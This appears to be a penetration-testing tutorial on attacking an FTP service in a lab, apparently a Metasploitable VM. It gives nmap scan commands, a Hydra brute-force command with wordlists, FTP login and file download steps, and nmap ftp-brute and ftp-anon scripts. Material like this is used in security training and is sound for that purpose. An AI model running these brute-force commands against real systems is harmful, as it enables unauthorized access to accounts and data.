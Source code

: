 #### _**FTP Service Scan**_

To begin, we can scan the FTP service on a target using Nmap to detect open ports and gather service version details.

nmap -p 21 -sV -O 192.168.56.106

This command scans port 21 (default FTP port), performs version detection (-sV), and attempts to identify the target’s operating system (-O).

#### _**Brute-Forcing FTP Credentials with Hydra**_

Hydra is a popular tool for brute-forcing login credentials. Below is an example of using Hydra to perform a brute-force attack on FTP.

hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.56.106 ftp

- **-L** specifies the user list.
    
- **-P** specifies the password list.
    

#### _**Access FTP Using Found Credentials**_

Once valid credentials are identified, access the FTP server using the ftp command.

ftp 192.168.56.106

Then, execute FTP commands to interact with the server:

- **List files**:
    
- ls
    
- **Download a file**:
    
- get secret.txt
    
- **Exit the FTP session**:
    
- bye
    

#### _**Create User List for Brute-Force**_

Create a custom user list for Hydra by echoing usernames into a file:

echo "msfadmin" > users

#### _**Use Nmap FTP Scripts**_

Nmap has built-in scripts for brute-forcing FTP credentials and checking for anonymous login.

- **FTP Brute-Force**:
    
- nmap --script ftp-brute --script-args userdb=/home/kali/users -p 21 192.168.56.106
    
- **FTP Anonymous Login**:
    
- nmap -p21 --script ftp-anon 192.168.56.106
    
